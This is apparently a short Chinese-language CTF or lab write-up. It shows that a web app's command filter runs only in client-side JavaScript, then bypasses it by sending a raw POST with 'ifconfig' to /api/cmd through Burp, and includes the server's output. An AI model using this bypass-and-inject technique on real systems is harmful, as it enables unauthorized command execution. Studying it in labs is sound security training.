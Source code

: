 阅读js代码，发现命令行的过滤是在js端执行的，主要是ValidateIPaddress这个函数。

我们用burp抓包。直接从burp发命令，绕过浏览器的js过滤

payload：
```
POST /api/cmd HTTP/1.1

Host: 10.10.2.134:15065

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: text/plain

Origin: http://10.10.2.134:15065

Content-Length: 8

Connection: close



ifconfig
```


返回：
```
HTTP/1.1 200 OK

Date: Tue, 09 Nov 2021 10:21:29 GMT

Content-Length: 900

Content-Type: text/plain; charset=utf-8

Connection: close



eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.10.2.134  netmask 255.255.0.0  broadcast 10.10.255.255
        inet6 fe80::53:b1ff:fe33:d9b3  prefixlen 64  scopeid 0x20<link>
        ether 02:53:b1:33:d9:b3  txqueuelen 1000  (Ethernet)
        RX packets 1225123  bytes 132078973 (132.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 858039  bytes 110027220 (110.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 40410  bytes 4167976 (4.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 40410  bytes 4167976 (4.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
